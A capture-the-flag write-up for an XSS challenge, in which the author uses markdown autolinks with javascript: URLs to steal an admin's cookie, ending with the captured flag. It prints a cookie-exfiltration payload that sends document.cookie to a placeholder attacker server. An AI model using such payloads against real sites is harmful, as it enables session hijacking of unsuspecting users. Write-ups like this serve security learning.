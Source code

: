# Writeup

### Challenge available at `https://mistune.flatearth.fluxfingers.net/`

# Description:
 Try to steal admin cookie. Admin will click on ```<a>``` tag. This challenge has XSS vulnerability by which you can use it to steal admin cookie.

# Test:

After searching for a while i found this maybe useful ```<javascript:alert('xss')>```,this will create a ```<a>``` tag, i will use this as payload and the result:
![XSS-Test](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-test-xss.png)

Then i try ```<javascript:alert(document.cookie)>```, the result:
![Cookie-Test](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-test-cookie.png)

# Exploit:

After testing, i will try to get current session to my server before send script to admin
```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>``` then i receive this:
![Cookie-to-server](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-get-cookie-test.png)
Now we are ready to steal admin cookie
```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>```
And #BINGO
![Admin-cookie](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-admin-cookie.png)
# flag{92da883eb1df9d1287ff25f1a1099f29}
